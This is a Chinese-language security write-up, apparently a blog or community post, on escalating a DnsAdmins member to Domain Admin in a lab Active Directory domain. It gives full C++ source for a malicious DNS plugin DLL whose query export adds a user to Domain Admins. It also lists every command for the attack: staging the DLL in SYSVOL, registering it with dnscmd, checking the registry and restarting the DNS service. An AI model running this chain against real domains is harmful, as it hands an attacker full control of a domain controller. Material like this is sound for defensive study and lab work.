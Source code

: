 0x01.背景
-------

​ 实验利用Dns Administrators 组成员，通过远程配置Dns服务，进行`Dll inject`从而实现特权提升。  
​ 在域内，Dns server 通常为Dc Server,Dns服务器管理基于rpc，通过调用`c:\windows\system32\dns.exe`,创建Rpc接口，使用`\PIPE\DNSSERVER`命名管道进行传输。

​ DNS服务默认ACL 如下图：

![1](https://shs3.b.qianxin.com/butian_public/f039f6906c101c8d66dc13b7f6c5903bf.jpg)

​ DNS.exe 默认启动权限为`NT AUTHORITY\SYSTEM`：

![2](https://shs3.b.qianxin.com/butian_public/fb37217858d6c76d8b3c674f8a9aaa634.jpg)

0x02、过程
-------

### 0x0201 dll文件编译：

dll源码：

```c++
// dllmain.cpp : 定义 DLL 应用程序的入口点。

\#include "pch.h"

DWORD WINAPI DnsPluginInitialize(PVOID a1, PVOID a2)
{
    return 0;
}

DWORD WINAPI DnsPluginCleanup()
{
    return 0;
}

DWORD WINAPI DnsPluginQuery(PVOID a1, PVOID a2, PVOID a3, PVOID a4)
{
    WinExec("net group \"Domain Admins\" sixth-hospital /ADD /DOMAIN", SW_SHOWNORMAL);
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

导出函数，Source.def文件：

```def
EXPORTS
DnsPluginInitialize
DnsPluginCleanup
DnsPluginQuery
```

编译后查看导出函数是否正确：

![3](https://shs3.b.qianxin.com/butian_public/f95129fe468f0e5da658e725c5533528a.jpg)

### 0x0202 特权提升：

​ 首先找到Dnsadmins

```cmd
net user sixth-hospital /domain
```

![4](https://shs3.b.qianxin.com/butian_public/fc05f30535d4486243b3e1596fa3ff303.jpg)

将dll 复制到sysvol

```cmd
copy Dlldns.dll \\WIN-43QM2N9GRC4.hackhello.local\sysvol\hackhello.local\scripts
```

使用当前用户列举AD c盘

```cmd
dir \\WIN-43QM2N9GRC4.hackhello.local\c$
```

![5](https://shs3.b.qianxin.com/butian_public/f18b021c9f293ebc98e67369fd38d8759.jpg)

执行dnscmd 配置调用dll

```cmd
dnscmd WIN-43QM2N9GRC4.hackhello.local /config /serverlevelplugindll \\WIN-43QM2N9GRC4.hackhello.local\sysvol\hackhello.local\scripts\Dlldns.dll
```

![6](https://shs3.b.qianxin.com/butian_public/f1dee492327d2e3bc9200770b1e12e656.jpg)

此时查看dc注册表，已经配置好了dll路径。

```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters
```

![7](https://shs3.b.qianxin.com/butian_public/f499786fc8f15c8bda3588888bbf3cd80.jpg)

重启dns

```cmd
sc stop dns

sc start dns
```

![12](https://shs3.b.qianxin.com/butian_public/f59b56aa9d923f96373be1664660a862f.jpg)

重启完服务后再执行net命令

```cmd
net user sixth-hospital /domain
```

![9](https://shs3.b.qianxin.com/butian_public/fae151ebd419903dad5c45eb08727b32a.jpg)

可以看到已经成功将Dnsadmins用户提升至域管理员权限

我们列下c盘符下文件

![10](https://shs3.b.qianxin.com/butian_public/f3793b759a5c24c49ba69f711d03eb372.jpg)